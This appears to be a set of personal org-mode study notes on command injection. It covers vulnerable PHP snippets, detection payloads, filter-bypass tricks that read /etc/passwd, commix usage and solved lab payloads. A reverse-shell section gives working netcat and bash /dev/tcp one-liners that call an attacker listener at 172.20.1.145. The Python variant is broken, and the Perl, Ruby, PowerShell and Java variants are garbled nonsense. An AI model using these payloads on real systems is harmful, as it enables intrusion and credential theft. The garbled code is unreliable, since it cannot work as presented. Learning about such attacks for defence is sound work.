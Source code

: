 #+title: Command Injection
#+author: gabriel

* intro
Applications can send commands to the operating system using various inputs. These commands are usually used to perform file operations on the server, obtain system information, or communicate with external systems

- An attacker identifies a vulnerable input field.
- They insert a specially crafted command into this field.
- The server executes this command as-is, performing the attacker's intended operations.

Command Injection attacks can lead to the following consequences:

*remote code execution (RCE)* ->
Attackers can execute arbitrary code on the target system remotely. They can install malware or perform any actions they desire on the target system.

*privilege escalation* ->
Enables attackers to elevate their privileges on the system.

*data breach* ->
Can result in the leakage of sensitive information. Attackers can access critical data such as database passwords, user credentials, and other sensitive information.

*denial of service* ->
Can cause service disruptions in the system. Results such as system crashes or service outages can occur, negatively impacting business continuity and user experience.

* commonly used commands in windows
| Command | Description
| whoami | Displays the current user account name.
| hostname | Shows the computer's host name.
| ipconfig | Provides information about network configuration and status.
| ping | Sends data to a specific IP address or host name.
| net user | Provides information about or manages user accounts.
| systeminfo | Lists general system information about the computer.
| dir | Lists the contents of a directory.
| cd | Changes the working directory.
| type | Displays the content of a file.
| echo | Displays text or the content of a variable.
| copy | Copies files or directories.
| del | Deletes files.
| findstr | Searches for a specific pattern in text files.
| powershell | Executes commands in Windows PowerShell.
| timeout | Waits for a specified time.

* Result-based command injection
Result-based Command Injection is a vulnerability that occurs when an application executes operating system commands based on user input without proper validation

Result-based Command Injection is a vulnerability that occurs when an application executes operating system commands based on user input without proper validation.

#+begin_src php
<?php

$user_command = $_GET['cmd'];

system($user_command);
?>
#+end_src

This PHP code takes user input from the cmd parameter in a web request and executes it directly on the operating system using the system function, leading to potential security vulnerabilities.

If an attacker adds ?cmd=ls to the URL, they can see the list of files on the server.

* vuln application
A DNS Lookup application that queries DNS records and displays the result on the screen is being examined.

[[./imgs/dnslook.png]]

A trial is made with the ; whoami payload in the address input field. Here, the ; operator ensures that the command within the payload runs after the system commands within the application finish executing.

[[./imgs/detect.png]]

whoami is used to determine the username under which the application is running, which is seen as www-data.

www-data is typically a user with limited permissions reserved for web server software, used for security purposes in web applications.

At this stage, various types of payloads can be tried: ; whoami, google.com; whoami, | whoami, && whoami, || whoami

Here, the ; ls payload uses the ls command to list files and directories within the current directory.

*vulnerable code* ->
#+begin_src php
<?php
  if (isset($_POST['query'])) {
    $query = $_POST['query'];

    $command = "nslookup $query"; // Vulnerable
    exec($command, $output); // Vulnerable

    if (!empty($output)) {
      echo '<div class="mt-3 mb-5 p-4" style="background-color:#f7f7f9;border-radius:13px;">';

      foreach ($output as $line) {
        echo '<code>' . htmlspecialchars($line) . '</code><br>';
      }

      echo '</div>';
    }
  }
?>
#+end_src

In this code, the query parameter obtained via the POST method is used directly in the nslookup command without any security measures.

 If a command like google.com; whoami is sent as the "query" parameter, it can execute on the operating system, leading to potential harm.

 Secure options will be done with the escapeshellarg() function

* blind command injection
Blind Command Injection is a type of attack where the attacker cannot directly see the output of the executed command. Instead, they infer the success or failure of the command execution through other means, such as server response time, error messages, or external actions.

*example scenario* ->
#+begin_src php
<?php

$host = $_GET['host'];

$ping_result = shell_exec("ping -c 1 " . $host);

if (strpos($ping_result, '1 packets received') !== false) {
    echo "Host is accessible!";
} else {
    echo "Host is unreachable!";
}
?>
#+end_src

This PHP code takes the host parameter from an HTTP request via $_GET and uses the shell_exec function to execute a ping command with this input on the operating system.

Since the user input is not validated, it is vulnerable to command injection attacks.

An attacker can append a ~; sleep 10~ command to manipulate the server's response time. If the server takes 10 seconds to respond, the attacker knows that the command has been executed.

*EXAMPLE*
A web application that stores the User Agent information of the browser for keeping visitor records is under investigation.

Considering that this information might be taken from the User-Agent header, which attackers can manipulate, the presence of a Command Injection vulnerability is evaluated.

First, the application’s homepage is visited, and a message indicating that the User Agent information is stored is observed.

[[./imgs/usera.png]]

It can be seen that any Command Injection payload sent and the result of the shell command (whoami, hostname, ls) are not reflected in the content.

For this web application, the response time of a standard HTTP request is 176 millis or 176 milliseconds as observed from a request.

*payload at user-agent header* ->

[[./imgs/dtc.png]]

*payload* ->
: User-Agent: '; sleep 10'

In the detection phase, the User-Agent header will be manipulated. The browser information is removed. To increase response time, the sleep command, which halts the process for a specified duration, is used.

The payload '; sleep 10' is crafted with quote marks at the beginning and end to close an existing quote in the software.

The ; operator ensures that the command within the payload runs after the system commands within the application finish executing. Various payload types containing quotes or other special characters can be tested at this stage.

The guesswork suggests that there might be a code like running in the background ->
: "echo '$userAgent' >> ./logs/user_agent.log"

When the payload is executed in the code, it would look like this ->
: "echo ' '; sleep 10' ' >> ./logs/user_agent.log"

*vulnerable code* ->
#+begin_src php
<?php
  $userAgent = $_SERVER['HTTP_USER_AGENT'];

  $command = "echo '$userAgent' >> ./logs/user_agent.log";

  exec($command);
?>
#+end_src

This code snippet takes the client's User-Agent header and appends it to a file using an echo command executed on the operating system. Since it executes user input as a shell command, it is vulnerable to command injection.

* getting a reverse shell with command injection
Command Injection attacks allow attackers to execute commands on a system, potentially enabling them to obtain a Reverse Shell on the target system.

[[./imgs/reverse_shell.png]]

To obtain a Reverse Shell, the attacker must execute a command on the target system that starts a shell (command line interpreter) and connects to the attacker's controlled server.

The attacker typically uses a listener server and waits for the shell program on the target system to establish the connection.

*example* ->
: google.com ; nc -e /bin/sh 192.168.1.10 4444

This command sends the command before the ; to the target system and then utilizes the nc command to obtain a Reverse Shell. The "nc" command or Netcat, uses the "/bin/sh" shell (or similar bash shell) to connect back to the server at 192.168.1.10 on port 4444.

*listening* ->
: nc -lvp 4444

Once the payload is sent to the target system, the attacker waits for the connection to reach the listening server.

** alternativa reverse shell payloads
: ; nc -e /bin/bash 172.20.1.145 4444

: ; bash -c 'bash -i >& /dev/tcp/172.20.1.145/4444 0>&1'
- bash -c : Runs the provided command using the -c (command) option of bash.
- 'bash -i >& /dev/tcp/.../4444 0>&1' : Creates an interactive bash shell and redirects Ie/O:
- bash -i : Spawns an interactive bash shell >& /dev/tcp/172.20.1.145/4444 : Redirects standard output (stdout)

** generating reverse shell payloads
Using payload generator tools can be beneficial for these types of attacks. For example:
https://www.revshells.com

** bash
: bash -i >& /dev/tcp/172.20.1.145/4444 0>&1

** python
#+begin_src python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,sock.SOCK_STREAM.os.connect(("172.20.1.145",4444));os.dup2(s.client_fileno(),0); os.dup2(s.client_fileno(),1); os.dup2(s.client_fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
#+end_src

** perl
#+begin_src perl
perl -e 'use Socket;$= "172.20.1.145; =4444;socket(S,PF_INET,SOCK_STREAM,getby_idc_chars("Tcp"));if(connect(S,sockaddr.("Plxp4.utfatossf; !x)&&=tf9fec(@ipv_pl_TE_(inputs), plt E);;&
#+end_src

** php
#+begin_src php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.20.1.145/4444 0>&1'"); ?>
#+end_src

** ruby
#+begin_src ruby
ruby-liftc.- s=744g))
fd=TCPSocket.open("172l.9")).to_i;exec 'sprintf("/bin/sh -i <&5.0)&5.2>5",f,f,df)S)
#+end_src

** powershell
#+begin_src powershell
powershell -c rival=$client = ....7180V4_$$client9 open("172.20.1.145");$stream= = elf.]$bytes=..ticks)$ev.;bytes.length=);.)while- $ases -.Name "- aysiiREBoundingClientRect..0'{8;client_Close());}}
#+end_src

** java
#+begin_src java
Runtime.getRuntime().exec(new. .socket[]{"bash", -c","exec t<.client.cc/_/tm/rv ครั้ง! '&..& '"])
#+end_src

* bypass techniques
In applications with Command Injection vulnerabilities, it may not always be possible to execute desired commands or exploit the vulnerability due to implemented filters or validations.

** removing whitespace characters
Some filters may block space characters between commands. In this case, alternative characters or methods can be used to execute commands.

*bypass with $IFS* ->
: ls${IFS}/etc/passwd

** using single and double quotes
When filters block certain keywords or commands, single and double quotes can be used to bypass these restrictions.

*bypass using single quotes* ->
: w'h'o'am'i

*bypass using double quotes* ->
: w"h"o"am"i

*bypass using backticks* ->
: wh``oami

** udinh $() and backticks
Subcommands can be executed using ~$()~ or ~`~. These methods allow special characters inside commands to be executed.

*bypass with $()* ->
: who$()ami

*bypass with backticks* ->
: who`echo am`i

** using multiple commands
Multiple commands can be used to bypass filters. In a command sequence, using an unfiltered character can execute another command.

*bypass using ;* ->
: google.com ; cat /etc/passwd

*bypass using ||* ->
: || cat /etc/passwd

* command injection scanning tools
*commix* ->
Commix (Command Injection Exploiter) is an automated tool used for detecting and exploiting Command Injection vulnerabilities in web applications. It is highly useful for security researchers and penetration testers.

[[./imgs/commix.png]]

*installation* ->
: git clone https://github.com/commixproject/commix.git commix

*basic usage* ->
: python commix.py --url="http://example.com/index.php"

*specify data parameter* ->
: python commix.py --url="http://example.com/index.php" --data="command=test"

*request method* ->
: python commix.py --url="http://example.com/index.php" --method=POST

* exam machine

First payload that works
: google.com;'l's

*actual directory* ->
#+begin_src sh<code>assets</code><br><code>database.php</code><br><code>index.php</code>
#+end_src

*get the content of the database.php file payload* ->
: google.com;"c"at${IFS}database.php

* exam 2
This lab contains a Command Injection vulnerability that leads to remote command execution.

The web application gives the domain name you want to check as a parameter to the "nslookup" utility running on the terminal. Find a way to run a command on the system.

What is the hostname address of the server where the website is running?

payload that works ->
: google.com;"ho"stname

* command injection improved filter bypass challenge
This lab contains a Command Injection vulnerability that leads to remote command execution.

The web application gives the domain name you want to check as a parameter to the "nslookup" utility running on the terminal. If the domain name you are sending contains commands or operators, your query will be blocked. You should know that almost all commands are ignored. Find a way to run a command on the system.

What is the hostname address of the server where the website is running?

*payload* ->
: google.com|"host"name

* command injection in perl-based stock control system
This lab contains a Command Injection vulnerability that leads to remote command execution.

The web application checks stock for products with a script written in Perl. Find a way to run commands on the system.

What is the hostname address of the server where the website is running?

*payload* ->
: fujifilm-x-t200|hostname

* command injection via user-agent log entries
This lab contains a Command Injection vulnerability that leads to remote command execution.

The web application logs the User Agent information of visiting users in a log file. Find a way to execute commands on the system.

What is the hostname address of the server where the website is running?
